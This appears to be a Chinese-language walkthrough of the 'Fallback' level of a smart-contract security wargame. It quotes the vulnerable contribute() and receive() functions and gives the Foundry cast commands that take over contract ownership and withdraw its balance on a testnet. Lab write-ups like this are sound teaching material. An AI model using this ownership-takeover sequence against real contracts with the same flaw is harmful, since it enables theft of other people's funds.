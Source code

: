 ### 第1关：Fallback

这一题主要是讲解 receive() 函数。在以太坊智能合约中，receive 函数是一个特殊的函数，用于接收以太币。当合约地址接收到以太币时，这个函数会被自动调用。

如以下代码所示，我们先要调用 contribute() ，在 contributions 里留下自己的记录。
```solidity
function contribute() public payable {
        require(msg.value < 0.001 ether);
        contributions[msg.sender] += msg.value;
        if (contributions[msg.sender] > contributions[owner]) {
            owner = msg.sender;
        }
    }
```
先点击 Get new instance, F12 查看本关的合约地址 0xAAAAAAAAAAAAAAAAAAAA ，然后使用 Foundry Cast 调用 contribute() , 并带上 小于 0.001 ether 的 msg.value ：

 ```shell
cast send 0xAAAAAAAAAAAAAAAAAAAA "contribute()" --value=0.0001ether --rpc-url=https://sepolia-rollup.arbitrum.io/rpc --private-key=XXXXXXX
```
然后参照如下代码，向合约发送一些 eth，以触发receive()。
 ```solidity
 receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }
```
执行
 ```shell
cast send 0xAAAAAAAAAAAAAAAAAAAA --value=0.000001ether --rpc-url=https://sepolia-rollup.arbitrum.io/rpc --private-key=XXXXXXX
```
这时我们查看合约的 owner，已经变成了自己的地址：

 ```shell
cast call 0xAAAAAAAAAAAAAAAAAAAA  "owner()" --rpc-url=https://sepolia-rollup.arbitrum.io/rpc
```

然后执行 withdraw():

 ```shell
cast send 0xAAAAAAAAAAAAAAAAAAAA "withdraw()" --rpc-url=https://sepolia-rollup.arbitrum.io/rpc --private-key=XXXXXXX
```

 点击 Submit Instance, 过关。
